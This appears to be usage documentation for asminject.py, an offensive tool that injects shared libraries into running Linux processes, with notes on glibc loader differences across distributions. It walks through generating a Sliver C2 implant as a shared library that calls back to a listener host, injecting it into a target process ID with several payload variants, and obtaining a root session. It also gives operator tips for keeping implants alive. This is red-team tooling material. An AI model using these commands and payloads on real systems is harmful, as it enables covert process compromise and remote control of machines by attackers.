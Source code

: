 # asminject.py examples - Shared library injection

* [Background](#background)
* [Important](#important)
* [dlopen with multithreading](#dlopen-with-multithreading)
* [_dl_open with multithreading](#dl-open-with-multithreading)
* [dlopen without multithreading](#dlopen-without-multithreading)
* [_dl_open without multithreading](#dl-open-without-multithreading)

## Background

Injecting a shared library (`.so` file) into an existing process was the entire purpose of the [dlinject.py](https://github.com/DavidBuchanan314/dlinject) tool that `asminject.py` was originally derived from. `asminject.py` includes several payloads to achieve the same type of goal, depending on the specifics of the Linux distribution where you're running it.

When `asminject.py` was originally developed, `dlinject.py` was hardcoded to look for a function named `_dl_open` in the `ld` library and call it. However, at least in 2021, not every Linux distribution included a version of the `ld` library that exported `_dl_open` or an equivalent function. Here are the permutations I've discovered so far while testing `asminject.py`:

* Debian and derivatives
  * Debian
    * Debian 10.6, ARM32 (Raspberry Pi)
	  * `libc` version is Debian GLIBC 2.28-10+rpi1
      * `ld` library does not export `_dl_open`
	  * `libdl` library exports `dlopen` with signature `void *dlopen([const] char *filename, int flags);`
	  * `libc` library exports `__libc_dlopen_mode`
  * Kali
    * kali-rolling (updated in June 2022), x86-64
      * `libc` version is Debian GLIBC 2.33-6
      * `ld` library does not export `_dl_open`
      * `libdl` library exports `dlopen` with signature `void *dlopen([const] char *filename, int flags);`
      * `libc` library exports `__libc_dlopen_mode`
* OpenSUSE
  * OpenSUSE Tumbleweed 20220719, x86 (32-bit)
    * `libc` version is GNU libc 2.35
    * `ld` library exports `_dl_open`, and the signature should be `void * _dl_open(const char *file, int mode, const void *caller_dlopen, Lmid_t nsid, int argc, char *argv[], char *env[]);`
	* `libdl` library does not export `dlopen`
	* `libc` library exports `dlopen` with signature `void *dlopen([const] char *filename, int flags);`

Some (older?) versions of `ld` allegedly use(d?) a simpler signature for `_dl_open`: `void * _dl_open(const char *file, int mode, const void *caller_dlopen);`, but I haven't run across this yet in order to test it.

In most cases, you should be able to use the first example below, because it handles both the `libdl` and `libc` variations on calling the `dlopen` function, and it's multithreaded, so the target process should continue as usual after the code is injected. The other options are provided for more constrained scenarios, e.g. if the target process doesn't have `libpthread` available, or if it's more advantageous to call `_dl_open` to avoid a particular detection mechanism.

## Important

Regardless of the payload and shared library you select, in virtually all cases you should avoid causing the shared library to issue a process-level `exit`, as this will cause the target process to exit as well. In my testing, common C2 agents for Linux will perform a system-level exit instead of a thread-level exit. I assume this is because unlike Windows, where calling a thread-level `exit` is more or less the same across versions, locating and calling the `pthread_exit` function on an arbitrary Linux distribution and version is more complicated, and so most(?) C2 authors don't implement it.

In the case of [Sliver](https://github.com/BishopFox/sliver) and [Metasploit](https://github.com/rapid7/metasploit-framework), what this means is that instead of e.g. calling `kill` in a Sliver session or `exit` in a Meterpreter session, you should just send the session to the background unless you absolutely want the target process to exit.

## dlopen with multithreading

The `dlinject-threaded.s` payload is the preferred option for injecting shared libraries into an existing process using `asminject.py`. It is the most straightfoward, best supported on various distributions (at least in my testing), and the target process will continue executing normally after injection.

This payload requires one variable: `librarypath`, which should point to the library you want to inject.

This payload requires relative offsets for the `ld` shared library used by the target process.

Locate or build a `.so` file to open. For example, to set up a [Sliver](https://github.com/BishopFox/sliver) C2 listener and implant:

```
# ./sliver-server     

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain infect
[*] Server v1.5.17 - 814670dc6d023f290fefd3e0fd7e0c420f9bb2e8
[*] Welcome to the sliver shell, please type 'help' for options

...omitted for brevity...

[server] sliver > mtls

[*] Starting mTLS listener ...

[server] sliver > jobs

 ID   Name   Protocol   Port 
==== ====== ========== ======
 2    mtls   tcp        8888 

[server] sliver > generate --mtls=192.168.1.78:8888 --os=linux --arch=386 --format=shared --save=/home/user --skip-symbols

[*] Generating new linux/386 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 00:01:48
[*] Implant saved to /home/user/MAGENTA_NEEDLE.so
```

Inject the DLL into the target process:

```
# python3 ./asminject.py 1957286 dlinject-threaded.s --arch x86\
   --relative-offsets-from-binaries --stop-method "slow" \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```

Back in the Sliver console, you should see something like this:

```
[*] Session 5abe2db4 MAGENTA_NEEDLE - 192.168.1.79:5976 (localhost.localdomain) - linux/386 - Fri, 29 Jul 2022 15:35:21 PDT

[server] sliver > sessions -i 5abe2db4

[*] Active session MAGENTA_NEEDLE (5abe2db4)

[server] sliver (MAGENTA_NEEDLE) > info

        Session ID: 5abe2db4-cf75-46aa-bb41-7ad288028f0d
              Name: MAGENTA_NEEDLE
          Hostname: localhost.localdomain
              UUID: 0f444f35-de17-41a3-bc44-c30405c83d04
          Username: root
               UID: 0
               GID: 0
               PID: 30320
                OS: linux
           Version: Linux localhost.localdomain 5.18.11-1-pae
              Arch: 386
         Active C2: mtls://192.168.1.78:8888
    Remote Address: 192.168.1.79:5976
         Proxy URL: 
Reconnect Interval: 1m0s
```

## _dl_open with multithreading

The `dlinject-ld-threaded.s` payload mimics the original `dlinject.py`, calling the `_dl_open` function that some versions of the `ld` library export (e.g. on OpenSUSE), and is multithreaded so that the target process continues executing normally after injection. `dlinject-ld-threaded.s` is currently an experimental feature, and only provided for the x86 architecture.

```
# python3 ./asminject.py 1957286 dlinject-ld-threaded.s --arch x86 \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```
## dlopen without multithreading

The `dlinject.s` payload is identical to the `dlinject-threaded.s` payload, except that it does not spawn a separate thread. This has the downside of not allowing the target process to keep executing normally after injection, but means that `libpthread` is not required. Just swap out the payload name, e.g.:

```
# python3 ./asminject.py 1957286 dlinject.s --arch x86-64 \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```

## _dl_open without multithreading

The `dlinject-ld.s` payload is identical to `dlinject-ld-threaded.s`, except that it does not call `_dl_open` in a separate thread. Like `dlinject.s`, this means that the `libpthread` library functions are not required, but it also means that the target process will stop doing its normal work in favour of whatever the injected code starts doing. `dlinject-ld.s` is currently an experimental feature, and only provided for the x86 architecture.

```
# python3 ./asminject.py 1957286 dlinject-ld.s --arch x86 \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```
